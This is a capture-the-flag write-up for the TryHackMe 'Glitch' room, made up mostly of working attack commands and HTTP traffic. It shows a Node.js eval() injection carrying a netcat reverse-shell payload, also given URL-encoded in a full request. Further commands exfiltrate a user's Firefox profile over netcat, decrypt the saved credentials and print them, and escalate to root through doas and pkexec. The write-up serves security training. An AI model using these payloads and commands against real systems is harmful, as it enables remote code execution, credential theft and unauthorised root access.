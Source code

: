 # TryHackMe Glitch

> Saikat Karmakar | Apr 26 : 2021

---

### Task 1
1. What is your access token?

```
this_is_not_real
```

2. What is the content of user.txt?

```
THM{i_don't_know_why}
```

3. What is the content of root.txt?
```
THM{diamonds_break_our_aching_minds}
```


-----------
***Notes***
-----------
- rce to revshell : 
https://medium.com/@sebnemK/node-js-rce-and-a-simple-reverse-shell-ctf-1b2de51c1a44


![img](2021-04-26_21-06.png)
```

**request**

```http
POST /api/items HTTP/1.1
Host: 10.10.159.111
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.85 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-GPC: 1
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Cookie: token=this_is_not_real
If-None-Match: W/"a9-0aR6bAfiK/DB+A79vs3kEEVvJNc"
Connection: close
```
**response**
```
there_is_a_glitch_in_the_matrix
```

- to filter the len of the response for ffuf & fuzz for params
```bash
curl -X POST 'http://10.10.159.111/api/items?abdc=please_sub' | wc -c
> 45
```
- fuzzing for parameters
```bash
ffuf -w /usr/share/wordlists/dirb/common.txt:FUZZ -X POST  -u http://10.10.159.111/api/items?FUZZ=please_sub -fs 45 -mc all
````

- eval() fn executing 
```http
HTTP/1.1 500 Internal Server Error
Server: nginx/1.14.0 (Ubuntu)
Date: Mon, 26 Apr 2021 16:02:26 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 1079
Connection: close
X-Powered-By: Express
Content-Security-Policy: default-src 'none'
X-Content-Type-Options: nosniff

<!DOCTYPE html>
<html lang="en">
<head>
<meta charset="utf-8">
<title>Error</title>
</head>
<body>
<pre>ReferenceError: ls is not defined<br> &nbsp; &nbsp;at eval (eval at router.post (/var/web/routes/api.js:25:60), &lt;anonymous&gt;:1:1)<br> &nbsp; &nbsp;at router.post (/var/web/routes/api.js:25:60)<br> &nbsp; &nbsp;at Layer.handle [as handle_request] (/var/web/node_modules/express/lib/router/layer.js:95:5)<br> &nbsp; &nbsp;at next (/var/web/node_modules/express/lib/router/route.js:137:13)<br> &nbsp; &nbsp;at Route.dispatch (/var/web/node_modules/express/lib/router/route.js:112:3)<br> &nbsp; &nbsp;at Layer.handle [as handle_request] (/var/web/node_modules/express/lib/router/layer.js:95:5)<br> &nbsp; &nbsp;at /var/web/node_modules/express/lib/router/index.js:281:22<br> &nbsp; &nbsp;at Function.process_params (/var/web/node_modules/express/lib/router/index.js:335:12)<br> &nbsp; &nbsp;at next (/var/web/node_modules/express/lib/router/index.js:275:10)<br> &nbsp; &nbsp;at Function.handle (/var/web/node_modules/express/lib/router/index.js:174:3)</pre>
</body>
</html>
```

![img](2021-04-26_21-29.png)

- payload to get rev shell
```bash
require("child_process").exec('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.4.23.120 9999 >/tmp/f')
```
- **request with payload**
```http
POST /api/items?cmd=require%28%22child%5Fprocess%22%29%2Eexec%28%27rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7C%2Fbin%2Fsh%20%2Di%202%3E%261%7Cnc%2010%2E4%2E23%2E120%209999%20%3E%2Ftmp%2Ff%27%29 HTTP/1.1
Host: 10.10.121.133
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.85 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Cookie: token=this_is_not_real
If-None-Match: W/"a9-0aR6bAfiK/DB+A79vs3kEEVvJNc"
Connection: close
```
- **response**
```http
HTTP/1.1 200 OK
Server: nginx/1.14.0 (Ubuntu)
Date: Tue, 27 Apr 2021 13:47:43 GMT
Content-Type: text/html; charset=utf-8
Connection: close
X-Powered-By: Express
ETag: W/"27-hyVNLWK8VBc+cTKoitWKEav28lY"
Content-Length: 39

vulnerability_exploited [object Object]
```
![img](2021-04-27_19-19.png)

- stabilize the shell
```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
Ctrl + Z
stty raw -echo; fg
```
- imp folder `.firefox` in home dir of the user
https://github.com/unode/firefox_decrypt

- send the folder to our machine
```bash
tar -cf - ./.firefox/ | nc 10.4.23.120 1234
```
- receive
```bash
nc -nvlp 1234 | tar -xf -
```
- run the exploit 
```bash
python3 exp.py ./.firefox/ 
```
![img](2021-04-27_20-20.png)
- id & pass
```
Website:   https://glitch.thm
Username: 'v0id'
Password: 'love_the_void'
```
- find suid 
```bash
find / -perm -u=s -type f 2>/dev/null

>>> /usr/local/bin/doas
```
- fexecute the binary 
```bash
/usr/local/bin/doas -u root pkexec /bin/bash
```




